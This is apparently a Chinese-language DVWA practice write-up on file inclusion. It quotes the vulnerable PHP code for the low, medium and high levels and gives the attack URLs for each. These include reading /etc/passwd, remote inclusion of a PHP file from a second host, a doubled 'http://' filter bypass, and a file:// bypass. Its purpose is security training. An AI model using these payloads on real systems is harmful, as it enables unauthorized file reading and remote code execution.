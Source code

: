 <center>File Inclusion文件包含</center>





[toc]







## File Inclusion文件包含

> 文件包含







### 1.low

> 低级
>
> 代码

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?>
```

> 本地文件 文件包含，看系统文件

```shell
# windows
http://192.168.0.111:8000/vulnerabilities/fi/?page=D:\\a.txt

# linux
http://192.168.0.111:8000/vulnerabilities/fi/?page=/etc/passwd
```

> 远程文件包含。 没有红色提示了。

```shell
php.ini allow_url_include 打开这个远程文件

# 进入docker环境
docker exec -it DockerId bash

# 修改php.ini
# 使用 sed 命令直接替换配置 查看php.ini路径
sudo sed -i 's/allow_url_include = Off/allow_url_include = On/g' /etc/php/7.0/apache2/php.ini

# 重启 Apache 服务
sudo systemctl restart apache2 / sudo service apache2 restart
```

```shell
# linux  两个主机之间可以通信。
http://192.168.0.111:8000/vulnerabilities/fi/?page=http://192.168.0.110:3000/a.php
```







### 2. medium

> 中级
>
> 代码

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );
```

```shell
# 过滤了http https 我们直接多写几个 http://
http://192.168.0.111:8000/vulnerabilities/fi/?page=hhttp://ttp://192.168.0.110:3000/a.txt
```

> 防护：多过滤几次`http://`





### 3. high

> 高级
>
> 代码

```php

<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}
```

> 前缀必须是`file`

file协议：用于访问本地文件系统

```shell
URL格式：`file:///path/to/file`

特点：

只能访问本地文件

没有网络传输过程

权限取决于本地文件系统权限
```

```shell
# 本地文件
http://192.168.0.111:8000/vulnerabilities/fi/?page=file:///etc/passwd
```













